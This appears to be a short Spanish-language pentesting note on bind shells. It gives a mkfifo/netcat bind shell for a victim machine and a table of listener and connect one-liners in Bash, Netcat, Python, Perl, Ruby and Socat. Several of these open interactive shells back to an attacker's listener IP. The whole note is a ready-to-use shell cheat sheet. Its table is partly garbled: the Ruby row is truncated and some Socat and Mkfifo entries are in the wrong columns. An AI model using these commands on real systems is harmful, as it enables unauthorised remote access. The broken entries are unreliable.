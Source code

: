 [[Apuntes]][[Shell]] [[Exploit]]
La diferencia aquí es que en vez de conectarnos nosotros a la máquina victima es que nosotros estamos escuchando por un puerto para que nos de conexión a nuestra máquina.

```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f # máquina victima
```

```
nc <IP> 4443 # nuestra máquina
```

| Lenguaje      | Comando para crear el listener                                                                                                                                                                                                                                      | Comando para conectar con el listener                                                                                                                                                                                                                       | Ejemplo de puerto |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------- |
| Bash          | `nc -lvp <PUERTO>`                                                                                                                                                                                                                                                  | `nc <DIRECCIÓN_IP_DEL_LISTENER> <PUERTO> -e /bin/bash`                                                                                                                                                                                                      | `4444`            |
| Netcat        | `nc -lvnp <PUERTO>`                                                                                                                                                                                                                                                 | `nc <DIRECCIÓN_IP_DE_LISTENER> <PUERTO>`                                                                                                                                                                                                                    |                   |
| Python        | `python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",<PUERTO>));s.listen(1);conn,addr=s.accept();print("[+] Conectado por:",addr[0]);subprocess.Popen(["/bin/bash","-i"],stdin=conn,stdout=conn,stderr=conn)'` | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<DIRECCIÓN_IP_DEL_LISTENER>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` | `5555`            |
| Perl          | `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(LocalPort,<PUERTO>,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);system$_ while<>;'`                                                                                                      | `perl -e 'use Socket;$i="<DIRECCIÓN_IP_DEL_LISTENER>";$p=<PUERTO>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'`        | `6666`            |
| Ruby          | `ruby -rsocket -e 's=TCPServer.new("<PUERTO>");puts("[+] Escuchando en #{s.addr[0]}:#{s.addr[1]}");conn=s.accept;puts("[+] Conexión de #{conn.peeraddr[2]}:#{conn.peeraddr[1]}");while(cmd=gets);conn.puts` #{cmd.chomp}`;end'`                                     | `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<DIRECCIÓN_IP_DEL_LISTENER>","<PUERTO>");while(cmd=c.gets);IO.popen(cmd,"r"){                                                                                                                              | io                |
| Netcat        | `nc -lvp <PUERTO>`                                                                                                                                                                                                                                                  | `nc <DIRECCIÓN_IP_DEL_LISTENER> <PUERTO>`                                                                                                                                                                                                                   | `8888`            |
| Socat Linux   | `socat TCP:<TARGET-IP>:<TARGET-PORT> -`                                                                                                                                                                                                                             | `socat TCP-L:<PORT> EXEC:"bash -li"`                                                                                                                                                                                                                        | 4443              |
| Socat Windows | `socat TCP:<TARGET-IP>:<TARGET-PORT> -`                                                                                                                                                                                                                             | `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`                                                                                                                                                                                                              | 4443              |
| Mkfifo        | `nc <ip> <port> -e /bin/bash`                                                                                                                                                                                                                                       | `mkfifo /tmp/f; nc -lvnp 4443 < /tmp/f \| /bin/sh >/tmp/f 2>&1; rm /tmp/f`                                                                                                                                                                                  | 4443              |
